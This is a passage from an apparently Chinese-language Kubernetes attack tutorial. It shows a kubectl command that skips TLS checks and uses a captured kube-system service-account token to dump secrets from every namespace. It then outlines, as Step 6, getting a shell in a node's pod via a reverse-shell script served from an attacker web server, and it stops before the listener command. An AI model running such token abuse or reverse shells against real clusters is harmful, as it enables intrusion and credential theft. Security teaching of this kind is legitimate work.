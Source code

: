 ```plain
kubectl --insecure-skip-tls-verify=true --server="https://192.168.17.144:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6Iml3OVRtaVlnREpPQ0h2ZlUwSDBleFlIc29qcXgtTmtaUFN4WDk4NjZkV1EifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJmbGFubmVsLXRva2VuLWhwbGJ0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImZsYW5uZWwiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIwMmJmZmUzZi0wNGE5LTQ2MTItYjRjYy1mYjNkNTdiNjZiZDkiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Zmxhbm5lbCJ9.oGnRE55P1Dv9W4-Gs8UCp5M1_vdL2flZ0WYJtr8HTMgb2Si6wb-N_ltS1HRi_Q9VHsS_CsjHw3ZqA-jQvbz-RENNLDEL20nUt9J51IyqeGPC3sKAd3fVOZmViIVrYsQSewvPHwPq7qvFnIj1aR-pFYrB47iohej2XvS4aTNZMdpxhL0jCBa3o5SFZg1oNR1rzJd1hhSaCNAbQ7_JMdTuCy4aU0zykVd0GoUF9gXRD7Avx9Y25QGCBTdPgL11fzjcGiG93KtfE4QASiLemnxDF1TPeob9MERFbT6mq-CQ7243U6HjF6Lx-1NfLk52qaXp3hbpGySNudUz_i_Q-KWIgw" get secrets --all-namespaces -o jsonv
```

[![](assets/1699842580-4906b693618f5db8858d0efae120440f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171137-806ab950-7316-1.png)  
Step 6：获取node里pod的shell  
攻击者可以本地搭建web服务，通过在node中的pod里执行反弹语句来获得node的shell，假定这里的192.168.17.161:80是攻击者web服务，之后写入以下反弹shell指令，之后启动一个简易的HTTP服务：

[![](assets/1699842580-f5db2883d1ee300a9158018f6d7eeed2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171203-8f8ed894-7316-1.png)  
在本地浏览器中进行简单测试：

[![](assets/1699842580-17ac8f68ba5a6552b08a2c1fea409da1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171216-976efa26-7316-1.png)  
之后在攻击主机上监听：  